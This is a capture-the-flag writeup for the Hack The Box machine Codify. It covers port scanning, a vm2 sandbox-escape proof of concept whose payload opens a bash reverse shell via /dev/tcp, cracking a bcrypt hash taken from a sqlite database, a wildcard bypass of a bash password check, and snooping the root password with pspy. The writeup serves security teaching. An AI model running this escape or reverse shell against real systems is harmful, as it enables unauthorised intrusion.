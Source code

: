 ```yaml
---
title: HTB Codify Writeup
date: 2023-11-24 04:15:16 +0600
categories: [Linux, Easy]
tags: [htb] 
toc: true    
---
```


![Codify Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_pwned.png "Pwned haha!!")

# Introduction
What's up!! Red Teamers. In this post we will try to solve the linux machine **Codify**. It is rated as easy and the machine is from **Open Beta Season III**. 

# Enumeration
Starting with the nmap scan...... 

```bash
sudo nmap -sS -T4 -n -v -A 10.10.11.239 > nmap_discovered_ports
```

What do we have here??

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http        Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
8080/tcp open  http-proxy?
```

The IP redirects to `http://codify.htb/`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get ...

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/home_page.PNG)

It says it's a simple web application that allows you to test your Node.js code easily. There is also a about page if you notice. From about page we got something interesting.

![About Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_about.PNG)

We found the library that was used to build this sandbox. It says The `vm2` library is widely used and trusted tool for sandboxing javascript. Just hold onto that, will you?

And... last but not least, the code editor.

![Code Editor](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/editor.PNG)

# Foothold 

Remember that `vm2` library?? If you do some googling, I'm sure you will bump into these resources from [Github](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) and [Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

Now use the POC javascript code to get a reverse shell. You can generate reverse shells in here [revshells](https://www.revshells.com/).

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -i >& /dev/tcp/IP/PORT 0>&1").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

You'll get the shell in no time.

# Lateral Movement
Now that you're in as `www-data`, first stabilize the shell. 

```Bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```
As we are in as `www-data`, we should see what we have in the web server. A sqlite db file was found in `/var/www/` directory. And we found a credential of a user named 'joshua'.

```plaintext
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

It's a bcrypt hash. We can use either `hashcat` or `john` to crack this. It won't take long whichever you use. Upon cracking the password, you can use the password to login as `joshua` via ssh.

![Got joshua](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/joshua.png)

Now you have the user flag.

# Priviledge Escalation 

Run the command `sudo -l`...

![permissions](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/sudo-l.png)

You can run `/opt/scripts/mysql-backup.sh` as root. Let's see the code here.

![mysql_backup.sh](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/mysql_backup_sh.png)

It takes an input password for root and compares them with `.creds` in `root` directory. Then it has mysql commands to backup databases. Kinda strange that it uses password in the command as plaintext. To get to that, we have to bypass the validation first. Do you know the comparison operations of bash?

![Bash Comparisons](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/bash_comp.png)

You can read briefly [here](https://tldp.org/LDP/abs/html/comparison-ops.html).

To be exact , if double brackets are used in string comparison, you can use regex or pattern matching there. And in the script, double brackets are used. So if you put `*` as input, it will be a correct password cuz `*` matches everything including the required password.

![root_en_route](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/root_on_route.png)

And the script runs. But how can we see the password from those mysql commands that's backing up the databases? Well, we can use [pspy](https://github.com/DominicBreuker/pspy). 

It says "*pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea*".

So login to ssh with another terminal. Then run pspy in one terminal and the script in other as sudo. You'll see the password in no time. You may have to run the script multiple times.

![pspy](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/pspy.png)

Now that you have the password, let's try to login as root. Annnnd, voila, we are root. You know where is the root flag.


#### Happy Hacking :)





